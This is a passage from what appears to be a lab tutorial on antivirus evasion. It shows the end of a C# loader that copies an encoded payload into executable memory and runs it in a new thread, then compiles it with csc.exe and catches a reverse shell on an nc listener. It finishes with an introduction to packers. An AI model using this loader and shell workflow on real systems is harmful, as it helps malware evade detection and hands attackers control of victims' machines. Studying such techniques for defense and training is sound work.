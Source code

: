 ```csharp

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```
Note that we have merely combined a couple of really simple techniques that were detected when used separately. Still, the AV won't complain about the payload this time, as the combination of both methods is not something it can analyze directly.

Let's compile our payload with the following command on the Windows machine:

Compile Our Encrypted Payload

```shell-session
C:\> csc.exe EncStageless.cs
```

Before running our payload, let's set up an `nc` listener. After copying and executing our payload into the victim machine, we should get a connection back as expected:

Set Up nc Listener

```shell-session
user@AttackBox$ nc -lvp 443
Listening on [0.0.0.0] (family 0, port 443)
Connection from ip-10-10-139-83.eu-west-1.compute.internal 49817 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>
```

As you can see, simple adjustments are enough sometimes. Most of the time, any specific methods you find online won't probably work out of the box as detection signatures may already exist for them. However, using a bit of imagination to customize any method could prove enough for a successful bypass.

## Packers

Packers are pieces of software that take a program as input and transform it so that its structure looks different, but their functionality remains exactly the same. Packers do this with two goals in mind:
- Compress the program so that it takes up less space
- Protect the program from reverse engineering in general

Packers are commonly used by software developers who would like to protect their software from being reverse engineered or cracked. They achieve some level of protection by implementing a mixture of transforms that include compressing, encrypting, adding debugging protections and many others. As you may have already guessed, packers are also commonly used to obfuscate malware without much effort.
